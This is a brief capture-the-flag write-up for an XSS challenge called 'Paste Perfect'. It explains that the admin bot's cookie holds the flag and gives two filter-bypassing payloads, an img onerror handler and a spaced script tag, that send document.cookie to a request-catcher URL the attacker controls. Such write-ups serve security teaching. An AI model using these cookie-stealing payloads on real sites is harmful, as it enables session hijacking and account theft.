 # Paste Perfect

Creator: Antti Ellilä

XSS with just a tiny bit of naive restrictions.

## Solution

Figure out from the code that the admin that checks reported pastes has a flag in it's cookies.

Create a web endpoint to receive requests on, for example [Request Catcher](https://requestcatcher.com/) or [Webhook.site](https://webhook.site/)

Bypass the simple XSS protections with something like
`<img src="" onerror="fetch('my url', { headers: { cookies: document.cookie }})">`
or even just a script tag with a space
```html
<script >
fetch('my url', { headers: { cookies: document.cookie }})
</script >
```

Create a paste with such content and press the report button.
